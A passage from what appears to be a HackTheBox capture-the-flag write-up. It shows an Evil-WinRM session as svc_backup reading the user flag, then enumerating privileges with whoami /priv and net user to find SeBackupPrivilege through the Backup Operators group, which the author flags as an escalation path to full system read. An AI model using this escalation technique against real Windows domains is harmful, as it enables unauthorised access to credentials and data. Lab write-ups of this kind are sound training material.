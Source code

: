 From here, I can grab `user.txt`:

```
*Evil-WinRM* PS C:\Users\svc_backup\desktop> cat user.txt
0b81b5d1************************

```

## Priv: svc\_backup –> administrator

### Enumeration

If the account name didn’t give it away, checking `whoami /priv` shows that this account has a really powerful privilege:

```
*Evil-WinRM* PS C:\Users\svc_backup\desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```

`SeBackUpPrivilege` basically allows for full system read. I showed this two weeks ago in [Multimaster](/2020/09/19/htb-multimaster.html#read-as-system). This is because svc\_backup is in the Backup Operators group:

```
*Evil-WinRM* PS C:\Users\svc_backup\Documents> net user svc_backup
User name                    svc_backup
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/23/2020 10:54:48 AM
Password expires             Never
Password changeable          2/24/2020 10:54:48 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   6/9/2020 5:27:18 PM

Logon hours allowed          All

Local Group Memberships      *Backup Operators     *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.

```
